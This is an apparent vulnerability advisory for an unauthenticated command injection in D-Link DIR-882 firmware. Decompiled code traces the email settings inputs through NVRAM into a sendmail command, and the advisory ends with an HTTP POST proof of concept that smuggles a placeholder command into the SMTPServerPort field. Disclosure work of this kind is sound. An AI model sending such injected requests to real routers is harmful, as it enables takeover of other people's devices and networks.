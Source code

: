 # Command Injection Vulnerability in `SetSysEmailSettings`

1. Vulnerability Overview

| **Field**            | **Details**                                                  |
| -------------------- | ------------------------------------------------------------ |
| Affected Product     | D-Link DIR-882 Router                                        |
| Firmware Version     | DIR882A1_FW102B02                                            |
| Vulnerability Type   | **Command Injection**                                        |
| Vulnerable Component | `prog.cgi` (input handling) and `rc` (execution of `sendmail` command) |
| Data Flow            | Cross-binary propagation via NVRAM variables (`nvram_safe_set` → `nvram_safe_get`) |
| Prerequisites        | No authentication required; attacker must supply crafted values through the web management interface (e.g., `SetSysEmailSettings/EmailFrom`, `SMTPServerAddress`, `SMTPServerPort`, `AccountName`). |

2. Exploitation Path

```c
// prog.cgi
int __fastcall sub_433188(int a1)
{
  ...
  v9 = (_BYTE *)webGetVarString(a1, "SetSysEmailSettings/EmailFrom");
  if ( !*v9 )
    return WebsSetResponseResult(a1, 0);
  nvram_safe_set("SysLogMail_From", v9);
  v1 = (_BYTE *)webGetVarString(a1, "SetSysEmailSettings/EmailTo");
  if ( !*v1 )
    return WebsSetResponseResult(a1, 0);
  nvram_safe_set("SysLogMail_To", v1);
  v2 = (_BYTE *)webGetVarString(a1, "SetSysEmailSettings/SMTPServerAddress");
  if ( !*v2 )
    return WebsSetResponseResult(a1, 0);
  nvram_safe_set("SysLogMail_SMTPServerAddress", v2);
  v3 = (_BYTE *)webGetVarString(a1, "SetSysEmailSettings/SMTPServerPort");
  if ( !*v3 )
    return WebsSetResponseResult(a1, 0);
  nvram_safe_set("SysLogMail_SMTPServerPort", v3);
  v4 = (_BYTE *)webGetVarString(a1, "SetSysEmailSettings/Authentication");
  v10 = v4;
  if ( !*v4 )
    return WebsSetResponseResult(a1, 0);
  if ( !strcmp(v4, "true") )
    nvram_safe_set("SysLogMail_Auth_Enable", "1");
  else
    nvram_safe_set("SysLogMail_Auth_Enable", "0");
  if ( !strcmp(v10, "true") )
  {
    v11 = (_BYTE *)webGetVarString(a1, "SetSysEmailSettings/AccountName");
    if ( *v11 )
    {
      nvram_safe_set("SysLogMail_Auth_Name", v11);
  ...
}

// rc
int sub_448FDC()
{
  ...
  if ( nvram_get_int("SysLogMail_Auth_Enable") )
  {
    v5 = (const char *)nvram_safe_get("SysLogMail_From");
    v6 = (const char *)nvram_safe_get("SysLogMail_Auth_Name");
    v7 = (const char *)nvram_safe_get("SysLogMail_Auth_Password");
    v8 = (const char *)nvram_safe_get("SysLogMail_SMTPServerAddress");
    v9 = (const char *)nvram_safe_get("SysLogMail_SMTPServerPort");
    sprintf(
      v33, "sendmail -f %s -H %s:%s@%s:%s -S -w %s -h %s < %s &", v5, v6, v7, v8, v9, v18, v17, "/tmp/MailEnvelop");
  }
  else
  {
    v10 = (const char *)nvram_safe_get("SysLogMail_From");
    v11 = (const char *)nvram_safe_get("SysLogMail_SMTPServerAddress");
    v12 = (const char *)nvram_safe_get("SysLogMail_SMTPServerPort");
    sprintf(v33, "sendmail -f %s -H %s:%s -S -w %s -h %s < %s &", v10, v11, v12, v18, v17, "/tmp/MailEnvelop");
  }
  twsystem(v33, 1);
  ...
}
```

3. **Vulnerable Binaries:** `prog.cgi` and `rc` (with cross-binary data flow).
4. 0-Day Command Injection Exploitation Path: 
   - In `prog.cgi`, line 5 executes `v9 = (_BYTE *)webGetVarString(a1, "SetSysEmailSettings/EmailFrom")`. The input is stored via line 8 `nvram_safe_set("SysLogMail_From", v9)`. Subsequently, in `rc`, line 54 retrieves the value through `v10 = (const char *)nvram_safe_get("SysLogMail_From")`. After string concatenation, the data is passed into line 59 `twsystem(v33, 1)`, leading to a command injection vulnerability.
   - In `prog.cgi`, line 5 executes `v9 = (_BYTE *)webGetVarString(a1, "SetSysEmailSettings/EmailFrom")`. The input is stored via line 8 `nvram_safe_set("SysLogMail_From", v9)`. Subsequently, in `rc`, line 44 retrieves the value through `v5 = (const char *)nvram_safe_get("SysLogMail_From")`. After string concatenation, the data is passed into line 59 `twsystem(v33, 1)`, leading to a command injection vulnerability.
   - In `prog.cgi`, line 17 executes `v3 = (_BYTE *)webGetVarString(a1, "SetSysEmailSettings/SMTPServerPort")`. The input is stored via line 20 `nvram_safe_set("SysLogMail_SMTPServerPort", v3)`. Subsequently, in `rc`, line 48 retrieves the value through `v9 = (const char *)nvram_safe_get("SysLogMail_SMTPServerPort")`. After string concatenation, the data is passed into line 59 `twsystem(v33, 1)`, leading to a command injection vulnerability.
   - In `prog.cgi`, line 17 executes `v3 = (_BYTE *)webGetVarString(a1, "SetSysEmailSettings/SMTPServerPort")`. The input is stored via line 20 `nvram_safe_set("SysLogMail_SMTPServerPort", v3)`. Subsequently, in `rc`, line 56 retrieves the value through `v12 = (const char *)nvram_safe_get("SysLogMail_SMTPServerPort")`. After string concatenation, the data is passed into line 59 `twsystem(v33, 1)`, leading to a command injection vulnerability.
   - In `prog.cgi`, line 13 executes `v2 = (_BYTE *)webGetVarString(a1, "SetSysEmailSettings/SMTPServerAddress")`. The input is stored via line 16 `nvram_safe_set("SysLogMail_SMTPServerAddress", v2)`. Subsequently, in `rc`, line 47 retrieves the value through `v8 = (const char *)nvram_safe_get("SysLogMail_SMTPServerAddress")`. After string concatenation, the data is passed into line 59 `twsystem(v33, 1)`, leading to a command injection vulnerability.
   - In `prog.cgi`, line 13 executes `v2 = (_BYTE *)webGetVarString(a1, "SetSysEmailSettings/SMTPServerAddress")`. The input is stored via line 16 `nvram_safe_set("SysLogMail_SMTPServerAddress", v2)`. Subsequently, in `rc`, line 55 retrieves the value through `v11 = (const char *)nvram_safe_get("SysLogMail_SMTPServerAddress")`. After string concatenation, the data is passed into line 59 `twsystem(v33, 1)`, leading to a command injection vulnerability.
   - In `prog.cgi`, line 31 executes `v11 = (_BYTE *)webGetVarString(a1, "SetSysEmailSettings/AccountName")`. The input is stored via line 34 `nvram_safe_set("SysLogMail_Auth_Name", v11)`. Subsequently, in `rc`, line 45 retrieves the value through `v6 = (const char *)nvram_safe_get("SysLogMail_Auth_Name")`. After string concatenation, the data is passed into line 59 `twsystem(v33, 1)`, leading to a command injection vulnerability.
5. Proof of Concept (PoC) for Reproducing the Vulnerability

```http
POST /cgi-bin/prog.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: 220
Connection: close

SetSysEmailSettings/EmailFrom=test@example.com
&SetSysEmailSettings/EmailTo=admin@example.com
&SetSysEmailSettings/SMTPServerAddress=mail.example.com
&SetSysEmailSettings/SMTPServerPort=25;`INJECTED_COMMAND`
&SetSysEmailSettings/Authentication=true
&SetSysEmailSettings/AccountName=attacker
```